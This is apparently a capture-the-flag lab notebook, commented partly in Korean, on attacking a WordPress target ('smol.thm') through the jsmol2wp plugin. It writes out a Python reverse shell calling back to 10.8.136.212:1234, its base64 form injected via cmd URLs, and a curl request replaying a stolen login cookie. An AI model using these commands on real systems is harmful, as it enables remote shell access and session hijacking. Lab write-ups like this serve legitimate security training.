 echo -n "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.136.212",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")" | base64

# payload manipulation

aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5F
VCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoMTAuOC4xMzYuMjEyLDEyMzQpKTtvcy5k
dXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5v
KCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKC9iaW4vYmFzaCk=

# connecting to the target -> SSRF successful URL manipulation

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?cmd=aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5F
VCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoMTAuOC4xMzYuMjEyLDEyMzQpKTtvcy5k
dXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5v
KCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKC9iaW4vYmFzaCk=

http://www.smol.thm/wp-admin/?cmd=aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5F
VCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoMTAuOC4xMzYuMjEyLDEyMzQpKTtvcy5k
dXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5v
KCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKC9iaW4vYmFzaCk=

# fail -> maybe directory listing...? -> 분명히 플러그인이 취약점인데..!

No such file or directory
bash: VCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoMTAuOC4xMzYuMjEyLDEyMzQpKTtvcy5k: command not found
bash: dXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5v: command not found

# http://www.smol.thm/wp-admin/index.php -> 관리자 페이지에서 플러그인 사용하는 것 확인 -> cmd 취약점이 가능한 페이지 찾기

![](https://velog.velcdn.com/images/agnusdei1207/post/203b4452-c71a-414a-b29c-86e95d1b2a8f/image.png)

# 아까 탈취했던 쿠키 활용

curl -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/profile.php?cmd=ls | bat -l html

# 중간에 쉬다와서 다시 쿠키 탈취 필요 (with burpsuite)
